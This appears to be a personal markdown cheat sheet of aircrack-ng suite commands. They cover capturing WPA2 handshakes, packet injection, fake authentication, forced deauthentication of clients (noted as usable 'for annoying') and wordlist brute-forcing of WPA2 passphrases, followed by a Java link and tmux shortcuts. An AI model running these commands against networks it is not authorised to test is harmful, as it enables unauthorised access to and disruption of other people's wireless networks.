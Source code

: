 ## Airodump
- Listen around
`sudo airodump-ng wlp2s0mon`
- Listen for handshake
`sudo airodump-ng -c <channel> --bssid <AP ssid> -w psk wlp2s0mon`

## Aireplay
- Injection test
`sudo aireplay-ng -9 wlp2s0mon`
- Find target
`sudo aireplay-ng --fakeauth 0 wlp2s0mon`
- Force deauth (during listening or for annoying)
`sudo aireplay-ng -0 <nb deauth> -a <AP ssid> -c <target MAC> wlp2s0mon`

## Aircrack
- Bruteforce WPA2 PSK (local psk*.cap recordings)
`sudo aircrack-ng -w <path_to_wordlist> -b <AP ssid> psk*.cap`


# Misc. Useful
## Java
https://www.tutorialspoint.com/compile_java_online.php

## Tmux
- Ctrl+B + % : split vz
- Ctrl+B + " : split vz
- Ctrl+B + [ : scroll mode, q to quit

